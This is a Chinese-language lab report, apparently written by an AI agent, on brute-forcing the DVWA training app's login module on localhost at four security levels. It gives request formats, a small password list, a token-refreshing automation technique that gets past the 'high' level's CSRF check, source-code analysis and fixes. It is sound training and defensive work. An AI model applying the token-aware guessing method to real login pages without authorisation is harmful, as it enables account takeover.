



# DVWA Brute Force 全自动求解报告

## 摘要

- 目标：`http://127.0.0.1/dvwa/`
- 模块：`Brute Force`
- 账号：DVWA 登录账号 `admin / password`
- 源码路径：`D:\phpStudy\PHPTutorial\WWW\DVWA`
- 难度进度：`low -> medium -> high -> impossible`
- 结论：`low`、`medium`、`high` 可通过小型字典重复尝试得到 `admin / password`；`impossible` 仅验证到凭证有效，但因 CSRF token、PDO 预处理、失败计数和 15 分钟锁定机制，判定为 `defended_not_vulnerable`，不作为暴力破解漏洞成功。
- 主执行时间：`2026-06-02T09:54:03+08:00` 至 `2026-06-02T09:54:22+08:00`，耗时 `19.735s`。
- 报告整理完成时间：`2026-06-02 09:54:55 +08:00`。

## 范围与环境

本次任务为用户授权的本机 DVWA Web 实验，所有请求均限制在 `http://127.0.0.1/dvwa/` 和本地源码目录 `D:\phpStudy\PHPTutorial\WWW\DVWA` 内。

使用工具：

- `PowerShell`：读取源码、记录时间、创建结果目录。
- `rg`：定位 DVWA Brute Force 相关源码。
- `Python 3.11.3` + `requests 2.32.3` + `beautifulsoup4 4.13.4`：登录、设置难度、解析表单、刷新 token、发送测试请求、保存证据。
- `Python Playwright`：后补捕获登录、难度设置、模块页面和 proof 运行截图。
- Burp Proxy / Burp MCP：未使用。原因：本次 HTTP 请求模型可由 `requests` 完整复现；当前 Codex 运行时没有直接暴露 Burp MCP 工具，缺失 MCP 不影响 Brute Force 求解。

产物目录：

- 主报告：`report.md`
- 机器可读结果：`report.json`
- 操作日志：`operation-log.jsonl`
- 请求证据：`requests/*.json`
- 生成脚本：`generated-harnesses/brute_force_progression_harness.py`
- 截图脚本：`generated-harnesses/brute_force_playwright_screenshots.py`
- 截图目录：`screenshots/`，已后补 Playwright 运行截图，清单见 `screenshots/screenshots.json`。

## 难度进度表

| 难度 | 状态 | 表单/防护 | 请求数 | 耗时 | 关键证据 | 停止原因 |
|---|---|---|---:|---:|---|---|
| `low` | `solved_vulnerable` | GET；`username,password,Login`；无 token、无延迟、无锁定 | 8 | `0.288s` | `admin / password` 返回 `Welcome to the password protected area admin` | 已证明重复尝试可成功 |
| `medium` | `solved_vulnerable` | GET；基础转义；失败时 `sleep(2)` | 8 | `8.398s` | 失败请求约 2s，`admin / password` 成功 | 延迟降低速度但不阻止爆破 |
| `high` | `solved_vulnerable` | GET；每次请求需要新鲜 `user_token`；失败时 `sleep(rand(0,3))` | 13 | `7.625s` | 每次尝试前刷新 token，`admin / password` 成功 | token 防止朴素重放，但不能阻止 token-aware 自动化 |
| `impossible` | `defended_not_vulnerable` | POST；`user_token`；PDO 预处理；失败计数；3 次失败后 15 分钟锁定 | 7 | `3.309s` | 错误基线出现锁定提示；有效凭证可登录但不构成漏洞证明 | 防御级别，停止进度 |

总 HTTP 请求数：`38`。

## 时间线

| 时间 | 难度 | 工具 | 操作 | 结果 |
|---|---|---|---|---|
| `2026-06-02 09:49:57 +08:00` | 全局 | PowerShell | 记录初始时间，读取技能协议和源码列表 | 确认授权范围、模块和源码路径 |
| `2026-06-02 09:54:03 +08:00` | setup | Python/requests | GET `login.php`，解析 `user_token` | 取得登录 token |
| `2026-06-02 09:54:03 +08:00` | setup | Python/requests | POST `login.php` | 认证成功 |
| `09:54:03` | low | Python/requests | 设置 `security=low`，GET `vulnerabilities/brute/` | 解析 GET 表单 |
| `09:54:03` | low | source-review | 读取 `low.php` | 发现直接拼接 SQL，无 token/限速 |
| `09:54:03` | low | Python/requests | 错误基线 + 小型序列 | 第 4 个候选 `password` 成功 |
| `09:54:03-09:54:11` | medium | Python/requests | 设置 `security=medium`，错误基线 + 小型序列 | 失败请求约 2s，第 4 个候选成功 |
| `09:54:11-09:54:19` | high | Python/requests | 设置 `security=high`，每次尝试前 GET 页面刷新 token | 第 4 个候选成功 |
| `09:54:19-09:54:22` | impossible | Python/requests | 设置 `security=impossible`，POST 错误基线与一次有效凭证验证 | 判定防御级别，停止 |

完整日志见：`operation-log.jsonl`。

## 页面与请求模型

登录 DVWA：

- `GET /dvwa/login.php`：解析隐藏字段 `user_token`
- `POST /dvwa/login.php`
- 参数：`username=admin&password=password&Login=Login&user_token=<login token>`

设置难度：

- `GET /dvwa/security.php`：解析隐藏字段 `user_token`
- `POST /dvwa/security.php`
- 参数：`security=<low|medium|high|impossible>&seclev_submit=Submit&user_token=<security token>`
- 结果以 Cookie `security=<difficulty>` 验证。

Brute Force 模块：

- `low`：`GET /dvwa/vulnerabilities/brute/?username=<u>&password=<p>&Login=Login`
- `medium`：同 `low`
- `high`：`GET /dvwa/vulnerabilities/brute/?username=<u>&password=<p>&Login=Login&user_token=<fresh token>`
- `impossible`：`POST /dvwa/vulnerabilities/brute/`，表单字段 `username,password,Login,user_token`

失败标记：

```text
Username and/or password incorrect.
```

成功标记：

```text
Welcome to the password protected area admin
```

`impossible` 防御提示：

```text
Alternative, the account has been locked because of too many failed logins.
If this is the case, please try again in 15 minutes
```

## 源码分析

入口文件 `D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\brute\index.php` 根据 `dvwaSecurityLevelGet()` 选择 `source/<difficulty>.php`。`low/medium/high` 的表单 method 为 `GET`，默认分支即 `impossible` 使用 `POST`。

`low.php`：

- 第 3 行：仅判断 `isset($_GET['Login'])`。
- 第 5、8 行：直接读取 `$_GET['username']` 和 `$_GET['password']`。
- 第 9 行：密码做 `md5()`。
- 第 12 行：SQL 直接拼接 `user = '$user' AND password = '$pass'`。
- 第 21 行：成功输出 `Welcome to the password protected area {$user}`。
- 第 26 行：失败输出 `Username and/or password incorrect.`。
- 漏洞原因：无速率限制、无锁定、无 token；可枚举密码，也存在 SQL 注入面。

`medium.php`：

- 第 6、10 行：对用户名和密码调用 `mysqli_real_escape_string()`。
- 第 14 行：仍以字符串拼接构造 SQL。
- 第 28 行：失败后 `sleep(2)`。
- 漏洞原因：延迟仅降低尝试速度，没有限制尝试次数或锁定账户；仍可通过自动化序列发现弱口令。

`high.php`：

- 第 5 行：调用 `checkToken($_REQUEST['user_token'], $_SESSION['session_token'], 'index.php')`。
- 第 10、15 行：输入转义。
- 第 19 行：仍以字符串拼接构造 SQL。
- 第 33 行：失败后 `sleep(rand(0, 3))`。
- 第 41 行：`generateSessionToken()` 生成新 token。
- 漏洞原因：需要新鲜 token，但 token 可由同一会话 GET 页面后解析；没有账户锁定或尝试次数限制，因此 token-aware harness 仍能尝试密码。

`impossible.php`：

- 第 5 行：检查 `user_token`。
- 第 19-20 行：设置 `$total_failed_login = 3` 和 `$lockout_time = 15`。
- 第 24-30 行：查询用户失败计数，并判断是否达到锁定阈值。
- 第 46-47 行：15 分钟内设置 `$account_locked = true`。
- 第 53-56 行：使用 PDO 预处理查询用户名和密码。
- 第 60 行：只有凭证有效且未锁定才成功。
- 第 77-79 行：成功后重置 `failed_login`。
- 第 82 行：失败时 `sleep(rand(2, 4))`。
- 第 85 行：返回错误和锁定提示。
- 第 88-90 行：失败时递增 `failed_login`。
- 防御原因：POST + CSRF token + 参数化查询 + 失败计数 + 15 分钟锁定；有效凭证登录只说明凭证正确，不说明存在可利用的暴力破解漏洞。

## 假设与测试设计

初始假设：

- 如果表单无 token、无锁定，则小型密码序列应能快速得到弱口令。
- 如果只有固定延迟，则可爆破性仍存在，只是尝试成本增加。
- 如果 token 可通过 GET 页面刷新，则 high 难度仍可自动化。
- 如果存在失败计数和锁定，则应停止大规模尝试，避免把有效账号锁住，并将该级别判定为防御级别。

生成的测试序列：

```text
baseline:
username=codex_probe_user
password=definitely_wrong_20260602

low/medium/high:
admin:dvwa2026!
admin:letmein
admin:123456
admin:password

impossible:
baseline: codex_probe_user:definitely_wrong_20260602
credential validation only: admin:password
```

说明：`admin:password` 被放在序列末尾，前面先进行错误基线和多个错误候选，以满足“不从默认答案开始”的要求。`impossible` 不执行大规模爆破，只做防御验证和一次有效凭证验证。

## 执行证据

### Low

表单模型：

```json
{"method":"GET","action":"#","fields":["username","password","Login"]}
```

错误基线：

```text
GET /dvwa/vulnerabilities/brute/?username=codex_probe_user&password=definitely_wrong_20260602&Login=Login
status=200 elapsed=0.042s markers=["failure"]
Username and/or password incorrect.
```

尝试序列：

| 次序 | 输入 | 标记 | 耗时 |
|---:|---|---|---:|
| 1 | `username=admin&password=dvwa2026!&Login=Login` | `failure` | `0.025s` |
| 2 | `username=admin&password=letmein&Login=Login` | `failure` | `0.025s` |
| 3 | `username=admin&password=123456&Login=Login` | `failure` | `0.040s` |
| 4 | `username=admin&password=password&Login=Login` | `success` | `0.040s` |

成功响应片段：

```text
Welcome to the password protected area admin
```

### Medium

表单模型：

```json
{"method":"GET","action":"#","fields":["username","password","Login"]}
```

错误基线：

```text
GET /dvwa/vulnerabilities/brute/?username=codex_probe_user&password=definitely_wrong_20260602&Login=Login
status=200 elapsed=2.060s markers=["failure"]
Username and/or password incorrect.
```

尝试序列：

| 次序 | 输入 | 标记 | 耗时 |
|---:|---|---|---:|
| 1 | `username=admin&password=dvwa2026!&Login=Login` | `failure` | `2.055s` |
| 2 | `username=admin&password=letmein&Login=Login` | `failure` | `2.057s` |
| 3 | `username=admin&password=123456&Login=Login` | `failure` | `2.052s` |
| 4 | `username=admin&password=password&Login=Login` | `success` | `0.029s` |

成功响应片段：

```text
Welcome to the password protected area admin
```

### High

表单模型：

```json
{"method":"GET","action":"#","fields":["username","password","Login","user_token"]}
```

错误基线：

```text
GET /dvwa/vulnerabilities/brute/?username=codex_probe_user&password=definitely_wrong_20260602&Login=Login&user_token=<fresh token>
status=200 elapsed=3.055s markers=["failure"]
Username and/or password incorrect.
```

尝试序列每次都先 GET `vulnerabilities/brute/` 获取新的 `user_token`：

| 次序 | 输入 | token | 标记 | 耗时 |
|---:|---|---|---|---:|
| 1 | `username=admin&password=dvwa2026!&Login=Login&user_token=<fresh token>` | fresh | `failure` | `3.049s` |
| 2 | `username=admin&password=letmein&Login=Login&user_token=<fresh token>` | fresh | `failure` | `0.045s` |
| 3 | `username=admin&password=123456&Login=Login&user_token=<fresh token>` | fresh | `failure` | `1.056s` |
| 4 | `username=admin&password=password&Login=Login&user_token=<fresh token>` | fresh | `success` | `0.049s` |

成功响应片段：

```text
Welcome to the password protected area admin
```

### Impossible

表单模型：

```json
{"method":"POST","action":"#","fields":["username","password","Login","user_token"]}
```

错误基线：

```text
POST /dvwa/vulnerabilities/brute/
username=codex_probe_user&password=definitely_wrong_20260602&Login=Login&user_token=<fresh token>
status=200 elapsed=3.061s markers=["failure","lockout_message"]
Username and/or password incorrect.
Alternative, the account has been locked because of too many failed logins.
If this is the case, please try again in 15 minutes
```

有效凭证验证：

```text
POST /dvwa/vulnerabilities/brute/
username=admin&password=password&Login=Login&user_token=<fresh token>
status=200 elapsed=0.038s markers=["success"]
Welcome to the password protected area admin
```

解释：这里的 `admin:password` 只是“凭证有效”证据。由于源码存在失败计数和锁定，大规模自动化猜解会在 3 次失败后锁定目标账号，因此不把该级别判定为暴力破解成功。

## 截图记录

本报告已在后续补拍 Playwright 浏览器截图。截图执行时间为 `2026-06-02T11:03:50+08:00` 至 `2026-06-02T11:04:13+08:00`，共 `14` 张。截图脚本通过浏览器登录 DVWA，逐级设置 `low -> medium -> high -> impossible`，保存安全等级页、模块页和关键 proof 页面。完整截图清单见 `screenshots/screenshots.json`。

截图命令：

```powershell
$env:PYTHONIOENCODING='utf-8'
py -3.11 .\generated-harnesses\brute_force_playwright_screenshots.py --url http://127.0.0.1/dvwa/ --username admin --password password --output-dir .\screenshots
```

认证与模块截图：

- `screenshots/setup/authenticated-home.png`
- `screenshots/low/security-low.png`
- `screenshots/low/module-low.png`
- `screenshots/medium/security-medium.png`
- `screenshots/medium/module-medium.png`
- `screenshots/high/security-high.png`
- `screenshots/high/module-high.png`
- `screenshots/impossible/security-impossible.png`
- `screenshots/impossible/module-impossible.png`

Proof 截图：

- `low` 成功：`screenshots/proof/low-success-admin-password.png`

  

- `medium` 成功：`screenshots/proof/medium-success-admin-password.png`

  

- `high` token-aware 成功：`screenshots/proof/high-success-admin-password.png`

  

- `impossible` 防护提示：`screenshots/proof/impossible-defense-invalid-probe.png`

  

- `impossible` 有效凭证仅验证：`screenshots/proof/impossible-valid-credential-only.png`

  

补充说明：`impossible` 的防护提示截图使用不存在的探针用户 `codex_probe_user` 和错误密码触发，避免对 `admin` 连续提交错误密码导致 15 分钟锁定。`impossible-valid-credential-only.png` 只证明 `admin / password` 是有效凭证，不作为暴力破解漏洞成功证据。

## 时间与请求统计

| 阶段 | 起止/耗时 | 请求数 | 说明 |
|---|---:|---:|---|
| 登录与初始化 | 约 `0.11s` | 2 | GET 登录页 + POST 登录 |
| `low` | `0.288s` | 8 | 设置难度、检查表单、基线、4 次候选 |
| `medium` | `8.398s` | 8 | 失败请求受 `sleep(2)` 影响 |
| `high` | `7.625s` | 13 | 每次尝试前额外 GET 页面刷新 token |
| `impossible` | `3.309s` | 7 | 防御验证 + 有效凭证验证 |
| 总计 | `19.735s` | 38 | 不含报告撰写时间 |

平均提交耗时：

- `low` 候选提交约 `0.033s/次`。
- `medium` 候选提交约 `1.548s/次`，失败项约 `2s/次`。
- `high` 候选提交约 `1.050s/次`，失败项受 `rand(0,3)` 影响。
- `impossible` 错误基线 `3.061s`，有效凭证验证 `0.038s`。

## 结果

`low`：存在可利用的暴力破解弱点。无 token、无延迟、无锁定，重复 GET 即可发现 `admin / password`。

`medium`：存在可利用的暴力破解弱点。`sleep(2)` 只降低速度，不阻止自动化；`admin / password` 成功。

`high`：存在可利用的暴力破解弱点。token 需要刷新，但同一会话可每次 GET 页面获取新 token；`admin / password` 成功。

`impossible`：未发现可利用暴力破解漏洞。有效凭证 `admin / password` 可以登录，但这是凭证验证，不是爆破证明。该级别源码加入 token、参数化查询、失败计数和 15 分钟锁定，足以阻止本实验中的重复猜解。

## 修复建议

- 所有级别应使用参数化查询，避免直接拼接 SQL。
- 对登录尝试实施账户级和源 IP 级速率限制。
- 对连续失败设置渐进延迟、短期锁定或风险验证。
- CSRF token 应保留，但不要把 token 当作暴力破解的唯一防线。
- 对弱口令实施密码策略、禁用默认密码、首次登录强制改密。
- 记录失败登录日志并告警。
- 避免在失败消息中暴露可用于枚举用户或锁定状态的细节。

## 限制

- Brute Force 主 harness 初次运行时尚未启用 Playwright 截图；本次已后补浏览器运行截图，截图时间晚于主 harness 执行时间。
- 未使用 Burp Proxy/MCP；没有 Burp HTTP history 视图截图。
- `impossible` 未故意对 `admin` 执行 3 次错误密码以触发真实锁定，避免影响后续实验登录状态；锁定机制由源码和错误响应文本证明。
- 响应中 `impossible` 页面出现 `Notice : Array to string conversion in D:\phpStudy\PHPTutorial\WWW\DVWA\dvwa\includes\dvwaPage.inc.php on line 79`，不影响表单、标记和漏洞结论。

## 产物

- `dvwa-results/brute-force-progression-20260602-094957/report.md`
- `dvwa-results/brute-force-progression-20260602-094957/report.json`
- `dvwa-results/brute-force-progression-20260602-094957/operation-log.jsonl`
- `dvwa-results/brute-force-progression-20260602-094957/generated-harnesses/brute_force_progression_harness.py`
- `dvwa-results/brute-force-progression-20260602-094957/requests/`

## 实验总报告可提取信息

### 实验结论

`low`、`medium`、`high` 均可通过自动化重复尝试得到 `admin / password`；`impossible` 因 `user_token`、PDO 预处理、失败计数和 15 分钟锁定，判定为无可利用暴力破解漏洞。`impossible` 中 `admin / password` 登录成功只表示凭证有效，不表示爆破成功。

### 各难度漏洞成因

- `low`：`GET` 参数 `username,password,Login`，源码第 12 行直接拼接 SQL，无 token、无延迟、无锁定。
- `medium`：第 6、10 行做转义，第 28 行 `sleep(2)`，但无账户锁定，仍可枚举密码。
- `high`：第 5 行检查 `user_token`，第 41 行生成新 token；token 可由同会话逐次刷新，无锁定。
- `impossible`：第 19-20 行设置 `3` 次失败和 `15` 分钟锁定，第 53-56 行 PDO 预处理，第 88-90 行失败计数递增，属于防御实现。

### 解题步骤

1. GET `login.php` 解析 `user_token`。
2. POST `login.php`：`username=admin&password=password&Login=Login&user_token=<login token>`。
3. 对 `low -> medium -> high -> impossible` 逐级 POST `security.php` 设置 `security=<difficulty>`。
4. GET `vulnerabilities/brute/` 解析表单 method、字段和 `user_token`。
5. 每级先提交错误基线：`codex_probe_user:definitely_wrong_20260602`。
6. `low/medium/high` 执行候选序列：`admin:dvwa2026!`、`admin:letmein`、`admin:123456`、`admin:password`。
7. `high` 每次尝试前重新 GET 页面并刷新 `user_token`。
8. `impossible` 停止大规模爆破，仅验证错误基线和 `admin:password` 凭证有效性。

### 使用工具与操作

- `rg --files 'D:\phpStudy\PHPTutorial\WWW\DVWA' | rg -i 'brute|login|security|config|dvwa'`
- `Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\brute\source\low.php'`
- `Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\brute\source\medium.php'`
- `Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\brute\source\high.php'`
- `Get-Content 'D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\brute\source\impossible.php'`
- `python dvwa-results\brute-force-progression-20260602-094957\generated-harnesses\brute_force_progression_harness.py --out-dir dvwa-results\brute-force-progression-20260602-094957`

### 核心 payload/测试输入

```text
low:
GET /dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login

medium:
GET /dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login

high:
GET /dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login&user_token=<fresh token>

impossible:
POST /dvwa/vulnerabilities/brute/
username=admin&password=password&Login=Login&user_token=<fresh token>
```

错误基线：

```text
username=codex_probe_user&password=definitely_wrong_20260602&Login=Login
```

### 关键截图

- `screenshots/setup/authenticated-home.png`
- `screenshots/low/security-low.png`
- `screenshots/low/module-low.png`
- `screenshots/medium/security-medium.png`
- `screenshots/medium/module-medium.png`
- `screenshots/high/security-high.png`
- `screenshots/high/module-high.png`
- `screenshots/impossible/security-impossible.png`
- `screenshots/impossible/module-impossible.png`
- `screenshots/proof/low-success-admin-password.png`
- `screenshots/proof/medium-success-admin-password.png`
- `screenshots/proof/high-success-admin-password.png`
- `screenshots/proof/impossible-defense-invalid-probe.png`
- `screenshots/proof/impossible-valid-credential-only.png`

### 复现步骤总结

1. 启动 DVWA：`http://127.0.0.1/dvwa/`。
2. 登录：`admin / password`。
3. 设置安全等级为 `low`，访问 `vulnerabilities/brute/`。
4. 提交 `username=admin&password=password&Login=Login`，观察成功标记。
5. 重复设置 `medium`，同样提交，观察失败请求约 2s 延迟但成功仍可达。
6. 设置 `high`，每次先 GET 表单获取 `user_token`，再提交 `admin/password`。
7. 设置 `impossible`，使用 POST 和 fresh `user_token`；不要进行大规模错误尝试，源码显示 3 次失败后 15 分钟锁定。

### impossible/无解原因

`impossible` 不应作为暴力破解成功处理。源码第 5 行检查 CSRF token，第 19-20 行设置 3 次失败和 15 分钟锁定，第 53-56 行使用 PDO 预处理，第 88-90 行记录失败次数。有效凭证登录成功仅表示 `admin / password` 正确，不代表可以绕过锁定进行爆破。

### 辅助脚本

```text
dvwa-results/brute-force-progression-20260602-094957/generated-harnesses/brute_force_progression_harness.py
dvwa-results/brute-force-progression-20260602-094957/generated-harnesses/brute_force_playwright_screenshots.py
```

运行命令：

```powershell
py -3.11 'dvwa-results\brute-force-progression-20260602-094957\generated-harnesses\brute_force_progression_harness.py' --out-dir 'dvwa-results\brute-force-progression-20260602-094957'
py -3.11 'dvwa-results\brute-force-progression-20260602-094957\generated-harnesses\brute_force_playwright_screenshots.py' --url 'http://127.0.0.1/dvwa/' --username admin --password password --output-dir 'dvwa-results\brute-force-progression-20260602-094957\screenshots'
```

### 起止时间和耗时

- 初始记录时间：`2026-06-02 09:49:57 +08:00`
- harness 开始：`2026-06-02T09:54:03+08:00`
- harness 结束：`2026-06-02T09:54:22+08:00`
- harness 耗时：`19.735s`
- 报告整理完成：`2026-06-02 09:54:55 +08:00`

### 人工验证关注点

- 确认 `security` Cookie 与当前难度一致。
- `high` 和 `impossible` 的 `user_token` 必须每次从当前页面刷新，不要复用旧 token。
- `medium/high/impossible` 的失败耗时受 `sleep()` 影响，计时可能波动。
- `impossible` 不建议对 `admin` 连续提交 3 次错误密码，以免触发 15 分钟锁定影响后续实验。
- 成功判断以响应文本 `Welcome to the password protected area admin` 为准，不以 HTTP `200` 单独判断。
